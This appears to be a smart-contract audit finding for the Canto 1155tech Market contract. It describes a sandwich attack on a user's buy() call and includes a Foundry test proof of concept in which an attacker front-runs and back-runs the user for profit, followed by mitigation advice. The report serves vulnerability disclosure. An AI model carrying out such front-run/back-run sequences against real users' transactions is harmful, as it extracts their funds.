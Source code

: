 ## Impact
An attacker can watch the mempool to wait for a user's [buy()](https://github.com/code-423n4/2023-11-canto/blob/main/1155tech-contracts/src/Market.sol#L150) call and sandwich it to make immediate profits. Since `buy` & `sell` prices depend on the number of tokens, and also since there is no holding-period required before selling, attacker can make immediate profits.

## Proof of Concept
Paste the following inside `2023-11-canto/1155tech-contracts/src/test/Market.t.sol` and run with `forge test --mt test_t0x1c_Sandwich -vv`. Alice is the attacker in this example:

```js
    function test_t0x1c_Sandwich() public {
        testCreateNewShare();
        token.approve(address(market), type(uint256).max);
        vm.prank(alice);
        token.approve(address(market), type(uint256).max);
        deal(address(token), alice, 10e18); // give some funds to Alice

        uint256 aliceInitialBalance = token.balanceOf(alice);

        // simulating some pre-existing orders
        market.buy(1, 2);
        market.buy(1, 3);

        //==============================//
        //======= SANDWICH ATTACK ======//
        //==============================//
        vm.prank(alice);
        market.buy(1, 10); // Front-run

        market.buy(1, 1); // BUY order from naive user

        vm.prank(alice);
        market.sell(1, 10); // Back-run

        // Immediate Profit
        assertGt(token.balanceOf(alice), aliceInitialBalance, "no profit");
    }

```

## Tools Used
Foundry.

## Recommended Mitigation Steps
Protocol can considering adding a `delay` between buy & sell from the same address so that it's not possible within the same block. Also, slippage protection for users will help keep such situations at bay to some extent.

---



